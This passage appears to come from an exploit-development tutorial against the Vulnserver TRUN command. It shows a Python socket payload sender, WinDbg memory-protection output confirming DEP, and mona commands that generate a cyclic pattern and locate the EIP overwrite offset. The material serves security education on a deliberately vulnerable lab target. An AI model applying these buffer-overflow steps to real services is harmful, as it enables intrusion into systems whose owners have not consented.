 ```python
with socket.create_connection(target) as sock:
    sock.recv(512)  # Welcome message
    sock.send(payload)
    print("[+] Exploit sent")
```

When we run this with DEP enabled, our exploit fails with an access violation. Checking memory protection in the debugger confirms the issue:

```
!vprot esp
```

Output:
```
BaseAddress:       00b4f000
AllocationBase:    00950000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000004  PAGE_READWRITE
Type:              00020000  MEM_PRIVATE
```

The stack is marked as PAGE_READWRITE (not executable), confirming DEP is active and blocking our shellcode execution.

## 2. Finding the Buffer Overflow Offset

First things first - we need to find exactly where our input overwrites EIP:

1. Generate a cyclic pattern:
```
!py mona pc 3000
```
   
Output:
```

Creating cyclic pattern of 3000 bytes
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7...
   ```

2. Create a script to send this pattern:
```python
pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5..." # Copy from mona output
payload = b"TRUN /.:/" + pattern
```

3. After sending the pattern and crashing the server, find our exact offset:
```
!py mona findmsp -distance 3000
```

Output:
```
[+] Examining registers
 EIP contains normal pattern : 0x396f4338 (offset 2003)
 ESP (0x00ecf9c8) points at offset 2010 in normal pattern (length 984)
 EBP contains normal pattern : 0x6f43376f (offset 2001)
```
